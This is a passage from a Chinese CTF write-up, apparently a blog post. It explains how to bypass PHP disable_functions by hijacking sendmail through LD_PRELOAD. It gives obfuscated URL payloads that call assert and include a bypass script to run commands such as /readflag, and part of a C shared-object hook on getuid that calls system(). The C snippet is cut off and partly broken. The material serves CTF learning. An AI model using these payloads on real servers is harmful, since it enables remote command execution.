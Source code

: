 php代码

通过cmd参数来指定命令 通过out_path来指定输出文件 通过sopath来指定污染的so文件

```cobol
这里我们只需要通过
 
_GET(_GET())
 
来arrset(include(/var/tmp/hack.php)) 即可访问php文件
```

我们来通过取反执行

```cobol
?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=include(%27/var/tmp/bypass_disablefunc.php%27)&cmd=ls&outpath=/var/tmp/easy&sopath=/var/tmp/bypass_disablefunc_x64.so    
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/3ff02bb2e16351640648e2de0e7c21ea.png" alt="" style="max-height:260px; box-sizing:content-box;" />


然后我们修改cmd 即可

```cobol
?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=include(%27/var/tmp/bypass_disablefunc.php%27)&cmd=/readflag&outpath=/var/tmp/easy&sopath=/var/tmp/bypass_disablefunc_x64.so    
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f53e1baea336eeab34b8470f8cc92979.png" alt="" style="max-height:151px; box-sizing:content-box;" />
但是这里我觉得我们还是了解一下比较好

## 

## 扩展

了解漏洞就了解清楚了 我觉得才可以提升自己

我们来重新梳理一下劫持过程

这里我们要注意

我们使用mail函数 是因为 这个函数在执行后才会开启程序 这样我们就可以劫持进程

这里注意 mail()和error_log()都是开启了 sendmail进程 我们可以劫持 并且 sendmail中存在getuid函数 我们可以利用绕过disable_function

error_log()函数第二个参数要设置为1

我们来自己写一遍

### 第一种写法

hack.so

```objectivec
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
 
void payload(){
    system('ls /> /tmp/flag')
}
 
int getuid(){
    if(getenv(LD_PRELOAD)==NULL){return 0;}
    unsetenv(LD_PRELOAD);
    payload();
```